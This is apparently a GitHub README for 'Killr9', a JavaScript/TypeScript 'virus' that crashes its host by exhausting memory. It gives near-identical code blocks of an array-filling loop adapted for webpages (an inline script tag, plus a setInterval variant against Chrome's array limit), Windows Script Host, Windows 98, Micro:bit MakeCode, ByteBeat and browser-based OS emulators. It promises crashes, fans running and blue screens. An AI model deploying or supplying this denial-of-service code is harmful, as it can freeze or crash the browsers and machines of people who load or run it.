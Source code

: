 # Killr9
A JavaScript/TypeScript virus that will kill virtually anything!

It's killed Chromium-based browsers, Electron Apps, NodeJS instances, Internet Explorer, NetScape Navigator 9, the BBC Micro:bit V2, and more!
<br><br>
You can find a demo at https://themirrazz.github.io/killr9/demopage/
<br><br>
Platforms it has effect on:
* Google Chrome/Chromium-based browsers
* NodeJS
* Windows98 and newer(via WSCRIPT.EXE)
* BBC Micro:bit(MakeCode Editor)
* Internet Explorer
* IEMode in Edge (kills IEChooser at the same time)
* Netscape Navigator
* Google Apps Script



## Killing a program
This will kill most programs that can run JavaScript, especially Chromium-based browsers.
Usually, the raw JavaScript versions will work. But there are some times where the code
may need to be written differently (eg Semi-colon, eval, typescript)



## Killing webpage (inline)
Paste the JS code inside of a script tag.
```html
<script>
  function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
</script>
```

Newer versions of Chrome require this additoinal code:
```html
<script>
  function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

setInterval(ohSnap)
</script>
```
Please note that this takes 12 seconds to be executed compared to the average of 0-4 seconds on everything except Chrome.
This is because Chrome has now implented an array limit. Its almost like they don't want viruses running on their browser...


## Killing a Windows96 instance(WRT Bin)
Create a WRT bin, like this:
```js
//!wrt
function ohSnap() {
  var corruptable=[]
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```

Once it's saved, if you double click it, the entire tab will crash.

## Killing the BBC Micro:bit
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; i <= (9999999 * 999999999999999999999) - 1; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```
Flash your code onto the BBC Micro:bit to watch it die!
You can also find the code in the `killr.ts` file.


NOTE: This code will also completly kill the simulator!

## Killing Windows(Windows ME and higher)

To Kill Windows ME or above, open the MS-DOS prompt. Make sure you have Windows Script Host by running WSCRIPT.EXE. If it shows WSH settings, close them and run `WSCRIPT.EXE path/to/killr.js`.
Your computer will lag, crash, keep the fan on, and depending on the computer and how much RAM is already in use, BSOD(Blue screen of death).

## Killing Windows 98
Killing Windows98 is almost the same as Killing Windows ME. But in Windows 98, WSCRIPT doesn't support `Array.push`, and therefore has to be rewritten, as so:
```js
function ohSnap() {
  var corruptable=[]
  corruptable.push=function(e){
    corruptable[corruptable.length]=e;
    corruptable.length++
  }
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap()
```


## Killing HTML5 ByteBeat

ByteBeat removes newlines, so you'll need semi-colons. It'll need to be in a function, also.
```js
(function(){
function ohSnap() {
  var corruptable=[];
  for(var i=0;i<(9999999*999999999999999999999);i++) {
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
    corruptable.push(i);
  }
}

ohSnap();
})()
```

Even before you press play, the tab will freeze for a little (due to the for loop) and then die do to the code killing it.
It's fun to run while something is playing, because the audio plays until the tab crashes (and it sounds cool, too!)

## Killing Windows93 (Via the terminal)
Paste the killr.js into the WIN93 terminal.
Soon the tab dies.


